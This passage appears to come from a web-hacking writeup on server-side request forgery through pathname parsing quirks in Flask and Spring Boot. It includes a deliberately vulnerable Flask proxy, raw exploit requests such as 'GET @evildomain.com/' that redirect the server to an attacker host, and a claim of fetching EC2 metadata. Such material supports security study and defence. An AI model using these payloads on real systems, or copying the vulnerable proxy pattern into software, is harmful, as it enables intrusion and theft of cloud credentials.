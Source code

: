 Since Flask also allows any ASCII character after the `@`, it's possible to fetch an arbitrary domain after concatenating the malicious pathname and the destination server.

Please consider the following source code as a reference for the exploitation scenario:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')

def proxy(path):
  return get(f'{SITE_NAME}{path}').content

if __name__ == "__main__":
    app.run(threaded=False)
```

Presented below is an example of an exploitation request:
```html
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close
```
In the following example, I was able to fetch my EC2 metadata:
![ssrf-flask](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/529505bd-4b79-4ad4-8317-546f0a72e9a4)

# SSRF on Spring Boot Through Incorrect Pathname Interpretation
Spring framework accepts the matrix parameter separator character `;` before the **first slash** of the HTTP pathname:

```html
GET ;1337/api/v1/me HTTP/1.1
Host: target.com
Connection: close
```

If a developer implements a server-side request that utilizes the complete pathname of the request to fetch an endpoint, it can lead to the emergence of **Server-Side Request Forgery (SSRF)**.

Please consider the following source code as a reference for the exploitation scenario:

![ssrf-2](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/fb40bae1-ba78-4631-b4ab-4937725ce382)

The code snippet above utilizes the `HttpServletRequest` API to retrieve the requested URL through the `getRequestURI()` function. Subsequently, it concatenates the requested URI with the destination endpoint **ifconfig.me**.

Considering that Spring permits any character following the Matrix parameter separator, becoming possible to use the `@` character to fetch an arbitrary endpoint as well.
